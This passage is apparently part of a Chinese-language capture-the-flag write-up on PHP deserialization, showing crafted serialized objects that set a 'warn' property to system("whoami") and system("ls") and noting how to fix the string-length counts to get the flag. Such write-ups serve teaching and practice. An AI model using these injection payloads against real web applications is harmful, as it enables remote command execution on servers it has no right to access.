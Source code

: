 构造序列化语句：
s对应的是string的字数，所以

```
cmd=O:7:"convent":2:{s:4:"warn";s:17:"system("whoami");";} 
```

![在这里插入图片描述](img/fcacab3b4649a8da82fca2e67d177e4a.png)

s对应的是string的字数，所以

```
cmd=O:7:"convent":2:{s:4:"warn";s:13:"system("ls");";} 
```

![在这里插入图片描述](img/46d5a81f57bc0fdaa6878c0e0b0caf70.png)
懒得数字数，直接python。
![在这里插入图片描述](img/a256ed7b3486d8e179e99c4202e985b7.png)
改下s数量 直接得flag